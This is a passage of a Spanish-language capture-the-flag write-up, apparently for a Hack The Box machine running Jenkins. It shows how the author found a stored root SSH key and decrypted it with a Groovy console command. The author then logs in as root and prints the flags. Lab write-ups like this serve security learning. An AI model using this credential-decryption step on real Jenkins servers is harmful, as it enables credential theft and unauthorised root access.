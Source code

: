 ![Pasted image 20240417151553](https://github.com/JoseVazquez101/Writteups/assets/111292579/ceb8d049-181a-40e2-816b-20297d1d1a6a)

- Ahora bien, intenté entablar una conexión pero no funcionó.
- Busqué más cosas en la página ahora que estaba autenticado para ver si encontraba otra forma potencial de ganar acceso, y encontré algo interesante.
- Encontré que en la dirección `Panel de Control > Administrar Jenkins > Credentials > System > Global credentials (unrestricted) > root` se guarda una especie de clave ssh para root.
- Si inspeccionamos el código fuente podemos ver la contraseña hardcodeada (xd), no sé porqué esto está así pero bueno:

![Pasted image 20240417154553](https://github.com/JoseVazquez101/Writteups/assets/111292579/6c4a2966-1bd2-4873-9e28-8df5bc2b2061)

- Investigué como desencriptar una contraseña de Jenkins y encontré esto:
	- https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml

- Aquí nos dicen que podemos hacerlo directamente desde la consola de Jenkins.
- Debemos introducir este comando, donde `{XXX=}` es nuestra clave:

~~~groovy
println(hudson.util.Secret.decrypt("{XXX=}"))
~~~

- Haciendo esto, tendríamos nuestra clave privada de SSH:

![Pasted image 20240417155444](https://github.com/JoseVazquez101/Writteups/assets/111292579/733550d3-b6fd-44fe-805f-62a55134d9f2)

- Le asignamos permisos a la llave:

~~~bash
❯ chmod 600 id_rsa
~~~

- Y accedemos como root:

~~~bash
❯ ssh root@10.10.11.10 -i id_rsa
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

<----- TRASH ----->

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Feb 12 13:15:44 2024 from 10.10.14.40
root@builder:~# ls
~~~

- Saqué las flags y con esto concluiríamos la máquina:

~~~bash
root@builder:/home/jennifer# cat user.txt 
e24d936ab6e1cf380595e861cc0c495b
root@builder:/home/jennifer# cat /root/root.txt 
baf1da3ad9d7c8ae75b423bfee8307bc
~~~
